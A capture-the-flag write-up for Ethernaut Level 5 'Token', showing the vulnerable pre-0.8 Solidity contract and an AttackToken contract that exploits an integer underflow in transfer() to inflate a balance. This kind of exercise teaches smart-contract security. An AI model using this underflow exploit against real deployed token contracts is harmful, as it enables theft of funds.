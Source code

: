 ```yaml
---
description: overflow / underflow in Solidity
---
```


# 5 - Token

Ethernaut Level5: [Token](https://ethernaut.openzeppelin.com/level/0xbF361Efe3FcEc9c0139dEdAEDe1a76539b288935)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### Goal of this level

* Having more than 20 tokens.

### What you should know before

* Overflow / Underflow in solidity\
  \-> see [here](https://youtu.be/zqHb-ipbmIo)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

There was no overflow/underflow protection before solidity version 0.8

</details>

Use Remix IDE!

```solidity
contract AttackToken {
    Token token;
    // Your wallet address
    address player = 0x34B4ab0479D10FdbAA3b52C8371C7B1BE5c73bb7;
    
    constructor(Token _instanceAddr) public {
        token = _instanceAddr;
    }
    // call this function after transfering the token to this conntract
    function attack() external {
        token.transfer(player, 2);
    }
}
```

Maximum value that  `uint256` variable can have is `2**256 - 1`.

Initial `Token` balance of AttackToken contract is 0.

But when you call `attack()` function, underflow occurs so the balance of AttackToken contract becomes `2**256 - 2`.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // underflow occurs
    balances[msg.sender] -= _value; // 2**256 - 2
    balances[_to] += _value; // 2
    return true;
  }
```

You will eventually have 22 tokens after you deploy `AttackToken` contract and call `attack()`.

Done! 😎

## Key Takeaway

* Overflow/Underflow occured in solidity versions before 0.8

